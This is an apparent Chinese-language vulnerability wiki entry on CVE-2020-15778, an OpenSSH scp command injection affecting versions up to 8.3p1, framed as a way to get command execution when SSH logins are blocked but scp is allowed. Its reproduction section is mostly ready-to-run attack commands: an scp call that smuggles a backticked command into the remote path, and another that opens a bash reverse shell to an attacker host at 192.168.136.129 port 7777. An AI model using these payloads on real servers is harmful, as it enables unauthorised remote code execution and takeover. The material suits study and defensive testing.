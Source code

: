 （CVE-2020-15778）OpenSSH 命令注入漏洞
======================================

一、漏洞简介
------------

**实际环境中的利用方案以及场景：**对于用户来说，ssh被阻止，但authorized\_keys文件中的命令选项允许使用scp的情况。您可以绕过此限制并在远程服务器上执行命令。也就是说，实际中通过各种手段获取到了ssh的用户密码，但是不允许ssh连接，或者ip等各种限制，可以尝试此漏洞进行利用。

二、漏洞影响
------------

OpenSSH \<=8.3p1

三、复现过程
------------

### 命令执行

    scp 1.txt root@ip:'`touch /root/test2.txt`/root/12111.txt'

![11.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId25.png)

### 反弹shell

    scp test.txt test@192.168.136.133:'`bash -i >& /dev/tcp/192.168.136.129/7777 0>&1`/tmp/test3.txt'

![10.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId27.png)
